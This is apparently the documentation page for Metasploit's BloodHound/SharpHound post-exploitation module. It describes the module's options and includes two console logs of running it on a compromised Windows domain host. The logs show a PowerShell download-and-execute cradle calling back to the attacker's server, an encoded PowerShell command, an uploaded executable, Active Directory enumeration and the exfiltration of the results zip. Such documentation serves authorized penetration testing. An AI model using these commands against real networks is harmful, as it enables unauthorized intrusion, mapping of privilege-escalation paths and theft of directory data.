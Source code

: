 ## Vulnerable Application

This module will execute the BloodHound C# Ingestor (aka SharpHound) to gather sessions, local admin, domain trusts and more.
With this information BloodHound will easily identify highly complex privilage elevation attack paths that would otherwise be
impossible to quickly identify within an Active Directory environment.

This module can take several/many minutes to run due to the volume of data being collected.

## Verification Steps

  1. Start `msfconsole`
  2. Get meterpreter session on a Windows domain
  3. Do: `use post/windows/gather/bloodhound`
  4. Do: `set SESSION <session id>`
  5. Do: `run`
  6. You should be able to see that the module is running a powershell in the target machine
  7. You should be able to see, after few minutes, that the module created a loot with the BloodHound results in zip format

## Options

### Method

Which method to use to get shaphound running.  Default is `download`.

  1. `download` requires the compromised host to have connectivity back to metasploit to download and execute the
      payload.  Sharphound is not written to disk.
  2. `disk` requires admin privileges to bypass the execution policy (if it isn't open).  Writes the `sharphound.exe`
     file to disk.  No connectivity is required but a disk write does happen which is likely to get caught by AV.

### CollectionMethode

The collection method to use. This parameter accepts a comma separated list of values. Accepted values are `Default`, `Group`,
`LocalAdmin`, `RDP`, `DCOM`, `GPOLocalGroup`, `Session`, `ObjectProps`, `ComputerOnly`, `LoggedOn`, `Trusts`, `ACL`, `Container`,
`DcOnly`, `All`.  The default method is `Default`.

### Domain

Specifies the domain to enumerate. If not specified, will enumerate the current domain your user context specifies.

### Stealth

Use stealth collection options, will sacrifice data quality in favor of much reduced network impact. The default value is `false`.

### ExcludeDomainControllers

Exclude domain controllers from session queries. Useful for ATA environments which detect this behavior. The default value is `false`.

### DomainController

Specify which Domain Controller to request data from. Defaults to closest DC using Site Names.

### LdapPort

Override the port used to connect to LDAP.

### SecureLdap

Uses LDAPs instead of unencrypted LDAP on port 636. The default value is `false`.

### DisableKerbSigning

Disables Kerberos Signing on requests. The default value is `false`.


### OutputFolder

Folder to write the JSON output to.  Default is to enumerate the Windows Temp folder.

### EncryptZip

If the zip should be encrypted by SharpHound using a random password.  Password is stored to `notes`, default is `true`.

### NoSaveCache

If the cache file (.bin) should NOT be written to disk.  Default is `true`.

## Scenarios

### Windows 2012 Domain Controller, Download method

```
msf6 post(windows/gather/bloodhound) > run

[*] Using URL: http://1.1.1.1:8080/127mPhBr3dZ
[*] Loading BloodHound with: IEX (new-object net.webclient).downloadstring('http://1.1.1.1:8080/127mPhBr3dZ')
[*] Invoking BloodHound with: Invoke-BloodHound -OutputDirectory "C:\Users\ADMINI~1\AppData\Local\Temp" -ZipFileName isid -MemCache -ZipPassword ilvtbfgkcmwszdxjn 
[*] 2022-11-13T13:45:21.0298446-05:00|INFORMATION|This version of SharpHound is compatible with the 4.2 Release of BloodHound
[*] 2022-11-13T13:45:21.4198615-05:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, Session, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
[*] 2022-11-13T13:45:21.4666492-05:00|INFORMATION|Initializing SharpHound at 1:45 PM on 11/13/2022
[*] 2022-11-13T13:45:22.2154647-05:00|INFORMATION|Loaded cache with stats: 59 ID to type mappings.
[*]  59 name to SID mappings.
[*]  0 machine sid mappings.
[*]  2 sid to domain mappings.
[*]  0 global catalog mappings.
[*] 2022-11-13T13:45:22.2310827-05:00|INFORMATION|Flags: Group, LocalAdmin, Session, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
[*] 2022-11-13T13:45:22.6054639-05:00|INFORMATION|Beginning LDAP search for hoodiecola.com
[*] 2022-11-13T13:45:22.7458626-05:00|INFORMATION|Producer has finished, closing LDAP channel
[*] 2022-11-13T13:45:22.7614632-05:00|INFORMATION|LDAP channel closed, waiting for consumers
[*] 2022-11-13T13:45:53.5431310-05:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 87 MB RAM
[*] 2022-11-13T13:46:06.1354911-05:00|INFORMATION|Consumers finished, closing output channel
[*] 2022-11-13T13:46:06.2134955-05:00|INFORMATION|Output channel closed, waiting for output task to complete
[*] Closing writers
[*] 2022-11-13T13:46:06.5255088-05:00|INFORMATION|Status: 100 objects finished (+100 2.325581)/s -- Using 89 MB RAM
[*] 2022-11-13T13:46:06.5255088-05:00|INFORMATION|Enumeration finished in 00:00:43.9260652
[*] 2022-11-13T13:46:06.7283096-05:00|INFORMATION|Saving cache with stats: 59 ID to type mappings.
[*]  59 name to SID mappings.
[*]  0 machine sid mappings.
[*]  2 sid to domain mappings.
[*]  0 global catalog mappings.
[*] 2022-11-13T13:46:06.7439000-05:00|INFORMATION|SharpHound Enumeration Completed at 1:46 PM on 11/13/2022! Happy Graphing!
[+] Downloaded C:\Users\ADMINI~1\AppData\Local\Temp\20221113134605_isid.zip: /root/.msf4/loot/20221113141655_default_2.2.2.2_windows.ad.blood_027677.zip
[+] Zip password: ilvtbfgkcmwszdxjn
[*] Post module execution completed
```

### Windows 10 non-AD host, Windows Server 2012 AD, Disk Method

```
meterpreter > sysinfo
Computer        : WIN10PROLICENSE
OS              : Windows 10 (10.0 Build 16299).
Architecture    : x64
System Language : en_US
Domain          : hoodiecola
Logged On Users : 7
Meterpreter     : x86/windows
meterpreter > background
[*] Backgrounding session 1...
msf5 post(windows/gather/bloodhound) > set method disk
method => disk
msf5 post(windows/gather/bloodhound) > exploit

[*] Uploading sharphound.exe as C:\Users\user\Desktop\qehojlwml.exe
[*] Loading BloodHound with: . C:\Users\user\Desktop\qehojlwml.exe --outputdirectory "C:\Users\user\AppData\Local\Temp" --zipfilename eiqxerh --encryptzip --nosavecache 
[+] EXECUTING:
powershell.exe -EncodedCommand LgAgAEMAOgBcAFUAcwBlAHIAcwBcAHQAYQByAGEAXABEAGUAcwBrAHQAbwBwAFwAcQBlAGgAbwBqAGwAdwBtAGwALgBlAHgAZQAgAC0ALQBvAHUAdABwAHUAdABkAGkAcgBlAGMAdABvAHIAeQAgACIAQwA6AFwAVQBzAGUAcgBzAFwAdABhAHIAYQBcAEEAcABwAEQAYQB0AGEAXABMAG8AYwBhAGwAXABUAGUAbQBwACIAIAAtAC0AegBpAHAAZgBpAGwAZQBuAGEAbQBlACAAZQBpAHEAeABlAHIAaAAgAC0ALQBlAG4AYwByAHkAcAB0AHoAaQBwACAALQAtAG4AbwBzAGEAdgBlAGMAYQBjAGgAZQAgADsAIAA= -InputFormat None
[*] ----------------------------------------------
[*] Initializing SharpHound at 4:19 PM on 6/3/2020
[*] ----------------------------------------------
[*] 
[*] Resolved Collection Methods: Group, Sessions, Trusts, ACL, ObjectProps, LocalGroups, SPNTargets, Container
[*] 
[*] [+] Creating Schema map for domain HOODIECOLA.COM using path CN=Schema,CN=Configuration,DC=HOODIECOLA,DC=COM
[*] [+] Cache File not Found: 0 Objects in cache
[*] 
[*] [+] Pre-populating Domain Controller SIDS
[*] Status: 0 objects finished (+0) -- Using 19 MB RAM
[*] Status: 63 objects finished (+63 21)/s -- Using 26 MB RAM
[*] Enumeration finished in 00:00:03.3219377
[*] Compressing data to C:\Users\user\AppData\Local\Temp\20200603161905_eiqxerh.zip
[*] Password for Zip file is QEqUpTtU0v. Unzip files manually to upload to interface
[*] 
[*] SharpHound Enumeration Completed at 4:19 PM on 6/3/2020! Happy Graphing!
[*] 
[+] Downloaded C:\Users\user\AppData\Local\Temp\20200603161905_eiqxerh.zip: /metasploit/.msf4/loot/20200603192705_default_2.2.2.2_windows.ad.blood_749446.zip
[+] Zip password: QEqUpTtU0v
[*] Deleting C:\Users\user\Desktop\qehojlwml.exe
[*] Post module execution completed

msf5 post(windows/gather/bloodhound) > notes

Notes
=====

 Time                     Host          Service  Port  Protocol  Type                     Data
 ----                     ----          -------  ----  --------  ----                     ----
 2020-06-03 23:27:05 UTC  2.2.2.2                           Sharphound Zip Password  "Bloodhound/Sharphound loot /metasploit/.msf4/loot/20200603192705_default_2.2.2.2_windows.ad.blood_749446.zip password is QEqUpTtU0v"

```
